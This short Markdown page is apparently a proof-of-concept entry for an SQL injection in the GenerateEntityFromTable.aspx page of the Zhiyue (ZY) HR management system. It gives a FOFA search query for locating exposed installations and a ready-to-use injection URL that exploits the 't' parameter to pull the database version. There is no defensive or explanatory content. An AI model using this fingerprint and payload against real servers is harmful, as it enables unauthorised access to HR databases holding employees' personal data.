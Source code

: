 ## 智跃人力资源管理系统GenerateEntityFromTable.aspx SQL漏洞

## fofa
```
app="ZY-人力资源管理系统"
```

## poc
```
http://127.0.0.1:8085/resource/utils/GenerateEntityFromTable.aspx?t=1%27%2B(SELECT%20CHAR(103)%2BCHAR(87)%2BCHAR(114)%2BCHAR(112)%20WHERE%201669%3D1669%20AND%206492%20IN%20(select+@@version))%2B%27
```

